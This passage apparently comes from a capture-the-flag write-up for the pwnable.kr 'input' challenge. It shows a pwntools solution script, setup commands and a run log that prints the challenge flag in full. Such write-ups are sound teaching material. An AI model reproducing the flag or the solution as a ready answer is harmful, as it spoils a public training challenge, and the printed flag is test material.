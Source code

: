 ```c
os.write(data1,b"\x00\x0a\x00\xff")
os.write(data2,b"\x00\x0a\x02\xff")

#stage3
env={b"\xde\xad\xbe\xef":b"\xca\xfe\xba\xbe"}

#stage4
f=open("\x0a","w")
f.write("\x00\x00\x00\x00")
f.close()

#calling process
p=process(executable="input",argv=stage1,stdin=fd1,stderr=fd2,env=env)

#stage 5
msg=remote('localhost',9898)
msg.sendline(b"\xde\xad\xbe\xef")

#gain shell
p.interactive()
```

And copying this exploit in ```/tmp/{your own dir}``` directory and changing the ```ELF``` path in the exploit as,

```c
p=process(executable="/home/input2/input",argv=stage1,stdin=fd1,stderr=fd2,env=env)
``` 

Adding symlink for that ```flag```, since flag should be in current directory

```c
    // here's your flag
	system("/bin/cat flag");
```

```c
input2@pwnable:/tmp$ mkdir monish
input2@pwnable:/tmp$ cd monish
input2@pwnable:/tmp/monish$ nano exploit.py

...

input2@pwnable:/tmp/monish$ ln -s /home/input2/flag flag
```

Lets try running the exploit,

```c
input2@pwnable:/tmp/monish$ python2 exploit.py 
[+] Starting local process '/home/input2/input': pid 349485
[+] Opening connection to localhost on port 9898: Done
[*] Switching to interactive mode
[*] Process '/home/input2/input' stopped with exit code 0 (pid 349485)
Welcome to pwnable.kr
Let's see if you know how to give input to program
Just give me correct inputs then you will get the flag :)
Stage 1 clear!
Stage 2 clear!
Stage 3 clear!
Stage 4 clear!
Stage 5 clear!
Mommy! I learned how to pass various input in Linux :)
```

Yay!! we got the flag ```Mommy! I learned how to pass various input in Linux :)```
